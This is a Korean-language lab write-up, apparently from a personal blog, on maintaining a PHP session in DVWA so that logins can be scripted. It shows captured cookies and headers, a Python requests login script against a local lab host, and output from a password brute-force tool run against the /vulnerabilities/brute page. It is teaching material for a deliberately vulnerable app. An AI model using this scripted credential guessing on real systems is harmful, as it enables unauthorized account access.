










# 두번째, 세션을 유지하는 방법

먼저 session을 유지하는 방법을 알아보기 위해서는 해당 페이지의 통신 과정과 통신으로 인한&#x20;

데이터가 어떻게 유지 되는지 알아야 한다.


우선 Whireshark로 통신을 보면 아래 이미지와 같다.&#x20;

/login.php로 접근을 하여 로그인이 성공이 되면 post /login.php로 통신이 이루어 지는데&#x20;

get /index.php로 자동으로 넘어가면서 메인 페이지인 /vulnerabilities/brute로 넘어가는데&#x20;

이때 통신은 get으로 바뀐다.

간단하게 말하면 POST /login.php -> /index.php -> GET /vulnerabilities/brute의 순서인 것이다.

<figure><figcaption></figcaption></figure>


Burp Suite로, login을 성공하고나서 /vulnerabilities/brute페이지에서&#x20;

로그인을 성공하는 경우의 정상적인 통신을 캡쳐해보자&#x20;


그럼 아래 이미지와 같이 목록을 확인 할 수 있는데&#x20;

우선 URL을 보면 /login.php로 시작하여 /index.php -> /vulnerabilities/brute/ -> /vulnerabilities/brute/?username=admin\&password=password\&Login=Login 순서대로 통신이 진행되고 있는 것을 확인 할 수 있다.

<figure><figcaption></figcaption></figure>


그럼 Request는 어떻게 통신이 진행되고 있을까?&#x20;

아래 이미지를 보자

<figure><figcaption></figcaption></figure>


기본적으로 메인 로그인 후,\
cookie 값과 security, Upgrade-Insecure-Requestes가 동일하게 유지 되고

```
Cookie: PHPSESSID=949dt48p84tdrd4hbvk7b4luv5; security=low
Upgrade-Insecure-Requests: 1 
```


초록색 형광팬으로 칠해진듯한 값들이 변형을 할 수 있는 데이터 값들인데&#x20;

값을 보면 PHPSESSID, security, username, password, login, user\_token으로 분류 된다.

<figure><figcaption></figcaption></figure>


/vulnerabilities/brute/?username=admin\&password=password\&Login=Login를&#x20;

성공하는 정상적인 로그인 성공 통신 과정은 아래와 같다.

<figure><figcaption></figcaption></figure>


로그인을 하고 나서 "cookie 값과 security, Upgrade-Insecure-Requestes가 동일하게 유지를 하고 있는 상태"에서 headers와 payload의 값을 추가해줘야 session이 유지되기 때문에 정상적인 통신이 가능하다. 통신에서 보면 아래 이미지처럼 여러 값이 보이는데

<figure><figcaption></figcaption></figure>

이렇게&#x20;

**payload:** username, password, login&#x20;

**cookies:** PHPSESSID, security&#x20;

**header:** Upgrade-Insecure-Requests, Accept, Referer, Accept-Encoding, Accept-Language, Connection


payload, cookies, header로 분류를 한 상태에서 통신을 시도해야 세션값이 유지가 된다.

<figure><figcaption></figcaption></figure>


그럼, 아래 이미지와 같이 test5.py 파일을 실행하면&#x20;

Length가 4704로 통신이 OK 된 것을 확인 할 수 있으며

<figure><figcaption></figcaption></figure>


OK 통신이 떨어진 패킷에서 Response를 보면 'Welcome' 문구를 확인 할 수 있는데

<figure><figcaption></figcaption></figure>


이 'Welcome' 문구는 아래 이미지와 같이 로그인이 성공 했을 때에 화면이란 것을 확인 할 수 있다.

<figure><figcaption></figcaption></figure>


해당 Whireshark 통신은 아래와 같다.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


아래는 소스 코드 이다.

```
import requests

# Define proxy details
proxies = {
    "http": "http://127.0.0.1:8888",
    "https": "https://127.0.0.1:8888"
}

# Set up a session with the proxy
s = requests.Session()
s.proxies = proxies

# Define login parameters
payload = {
    "username": "admin",
    "password": "password",
    "login": "Login",
    "user_token": "953d53ac43e77219126897ef22776a26"
}

# Define cookies to be included
cookies = {
    "PHPSESSID": "rcafp0kpt1bfi1tjbtbkmckb13",
    "security": "low"
}

headers = {
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.149.128:8080",
    "Referer": "http://192.168.149.128:8080/login.php",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

payload2 = {
    "username": "admin",
    "password": "password",
    "Login": "Login"
}

headers2 = {
    "Upgrade-Insecure-Requests": "1",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.149.128:8080/vulnerabilities/brute/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

# Send a POST request to the login page with the login parameters
login_url = "http://192.168.149.128:8080/login.php"
s.post(login_url, headers=headers, cookies=cookies, data=payload)

# Make requests to other pages with the session maintained
#other_url = "http://192.168.149.128:8080/vulnerabilities/brute/"
#request = session.get(other_url)
next_url = 'http://192.168.149.128:8080/vulnerabilities/brute/'
response = s.get(next_url, params=payload2, headers=headers2, cookies=cookies)

# Use the response object to interact with the page
# if response.url == next_url:
if response.status_code == 200:
    print("Login successful!")
else:
    print("Login failed.")
```

\---&#x20;

메인 로그인을 끝낸 뒤 /vulnerabilities/brute 엔드포인트를 향해 무작위 대입 브루트포스 공격을 하는 코드는 다음의 리포에서 찾을 수 있다.&#x20;



해당 코드를 실행시키면 다음과 같은 결과가 나온다.

```
└─# python3 dvwa-bruteforcer.py -u admin -p password -tu admin -f ./dvwa-passwd.txt -t http://127.0.0.1                                                                            
                                                                                                                                                                                   
[DEBUG] URL: http://127.0.0.1                                                                                                                                                      
[DEBUG] Username: admin                                                                                                                                                            
[DEBUG] Password: password                                                                                                                                                         
[DEBUG] Target username: admin                                                                                                                                                     
                                                                                                                                                                                   
[+] CSRF user_token found: 11aef5ee7f105ae2bd65401305bde7c3                                                                                                                        
[+] Main auth successful                                                                                                                                                           
                                                                                                                                                                                   
[+] Bruteforcing against /vulnerabilities/brute in 3 seconds...                          
                                                                                         
[*] Trying root...              
[*] Trying admin...                         
[*] Trying administrator...              
[*] Trying passwd...                                                                     
[*] Trying toor...                          
[*] Trying ubuntu...                        
[*] Trying ec2-user...                                                                   
[*] Trying secret...                                                                     
[*] Trying login...                    
[*] Trying password...                                                                   
                                                                                         
[+] Bruteforce SUCCESS! Username: admin Password: password
```


